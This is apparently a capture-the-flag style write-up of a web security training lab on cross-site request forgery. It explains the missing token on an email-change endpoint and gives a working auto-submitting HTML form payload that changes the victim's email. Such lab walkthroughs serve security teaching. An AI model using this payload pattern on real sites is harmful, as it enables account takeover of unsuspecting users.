

# CSRF vulnerability with no defenses
# Objective
This lab's email change functionality is vulnerable to CSRF.\
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis 
There is no `csrf` token (or any other `crsf` security measure) in `/my-account/change-email` which allows for cross-site request forgery.
||
|:--:| 
| *Test of change email functionality* |

## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below)
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

For some reason attacker and user wiener have to have different emails addresses.


```html
<form method="POST" action="https://0af400970429ed0e83db323e00e500da.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
</form>

<script>
        document.forms[0].submit();
</script>
```




